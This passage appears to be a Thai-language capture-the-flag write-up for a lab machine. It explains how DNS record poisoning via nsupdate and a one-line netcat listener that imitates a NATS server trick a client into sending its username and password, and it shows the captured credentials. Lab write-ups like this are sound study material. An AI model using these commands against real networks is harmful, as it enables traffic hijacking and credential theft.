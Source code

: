 มาอธิบายทีละขั้นตอนว่าการใช้ `nc` เพื่อ intercept credentials ทำงานอย่างไร:

## ขั้นตอนการทำงาน

### 1. DNS Poisoning
```bash
# เปลี่ยน DNS record ให้ชี้มาที่เครื่องเรา
cat dns_update.txt
server 10.10.11.78
update add nats-svc.mirage.htb 3600 A 10.10.14.8  # IP ของเรา
send

nsupdate dns_update.txt
```

### 2. สร้าง Fake NATS Server
```bash
echo 'INFO {"server_id":"FAKE","version":"2.11.0","auth_required":true}' | nc -l -p 4222
```

**การทำงาน:**
- `nc -l -p 4222` = netcat listen ที่ port 4222
- เมื่อมี client เชื่อมต่อเข้ามา netcat จะ**ส่งข้อความ INFO ทันที**
- ข้อความ INFO นี้เป็นการ**หลอก** NATS client ให้คิดว่าเป็น real NATS server

### 3. NATS Client เชื่อมต่อ

เมื่อ NATS client พยายามเชื่อมต่อไปยัง `nats-svc.mirage.htb:4222`:

```
Client → DNS lookup nats-svc.mirage.htb → ได้ IP 10.10.14.8 (เครื่องเรา)
Client → TCP connect ไปยัง 10.10.14.8:4222
```

### 4. Protocol Handshake (หลอกลวง)

```
← Server (fake): INFO {"server_id":"FAKE","version":"2.11.0","auth_required":true}
→ Client: CONNECT {"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!",...}
→ Client: PING
```

## ทำไม Client ถึงส่ง Credentials มา?

1. **Client เห็น `auth_required":true`** ใน INFO message
2. **Client คิดว่าเป็น real server** เพราะได้รับ INFO message ที่ถูกต้องตาม protocol
3. **Client ส่ง CONNECT message** พร้อม username/password
4. **เราดักจับได้** credentials ก่อนที่ connection จะปิด

## ทำไมใช้ `echo | nc` ได้?

```bash
echo 'INFO message' | nc -l -p 4222
```
